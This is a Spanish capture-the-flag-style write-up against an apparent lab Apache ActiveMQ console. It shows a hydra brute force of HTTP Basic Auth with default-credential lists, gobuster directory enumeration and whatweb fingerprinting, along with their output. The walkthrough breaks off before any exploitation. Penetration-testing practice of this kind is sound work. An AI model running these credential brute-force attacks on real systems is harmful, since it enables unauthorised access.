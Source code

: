 Tenemos un panel **HTTPBasicAuth**, Asi que realizaremos un ataque de fuerza bruta con **hydra**
Primero generamos un diicionario personalizado con el formato: **admin:admin**
```bash
cat /usr/share/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt | xcp
cat /usr/share/SecLists/Passwords/Default-Credentials/avaya_defaultpasslist.txt | xcp
```

Con estos creamos un archivo con credenciales por defecto, Para ese tipo de panel **HTTBasicAuth**
**credentials.txt**, Ya que tenemos el diccionario usamos hydra para realizar el ataque de fuerza bruta:
```bash
hydra -C credentials.txt 172.17.0.2 -s 8161 http-get /
```

Tenemos las credenciales de autentificacion:
```bash
[DATA] attacking http-get://172.17.0.2:8161/
[8161][http-get] host: 172.17.0.2   login: admin   password: admin
```

Comenzamos la enumeracion de archivos:
```bash
gobuster dir -u http://172.17.0.2:8161/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -t 20 -x php,php.back,backup,sh,txt,html,js,java,py -U admin -P admin
```

Reporte:
```bash
===============================================================
/images               (Status: 302) [Size: 0] [--> http://172.17.0.2:8161/images/]
/index.html           (Status: 200) [Size: 6047]
/admin                (Status: 302) [Size: 0] [--> http://172.17.0.2:8161/admin/]
/api                  (Status: 302) [Size: 0] [--> http://172.17.0.2:8161/api/]
/styles               (Status: 302) [Size: 0] [--> http://172.17.0.2:8161/styles/]
```

Ahora procedemos a enumerar las tecnologias que corren detras de esta web:
**--user** para indicar el usuario y contrasena en el **HTTPBasicAuth**
```bash
whatweb http://172.17.0.2:8161/ --user=admin:admin
```

Nos reporta las tecnologias:
```bash
http://172.17.0.2:8161/ [302 Found] Country[RESERVED][ZZ], HTTPServer[Jetty(9.4.39.v20210325)], IP[172.17.0.2], Jetty[9.4.39.v20210325], RedirectLocation[http://172.17.0.2:8161/index.html], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[1; mode=block]

http://172.17.0.2:8161/index.html [200 OK] Country[RESERVED][ZZ], HTTPServer[Jetty(9.4.39.v20210325)], IP[172.17.0.2], Jetty[9.4.39.v20210325], Title[Apache ActiveMQ], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[1; mode=block]
```

Desde aqui si que podemos ver la version:
```bash
http://172.17.0.2:8161/admin/
```
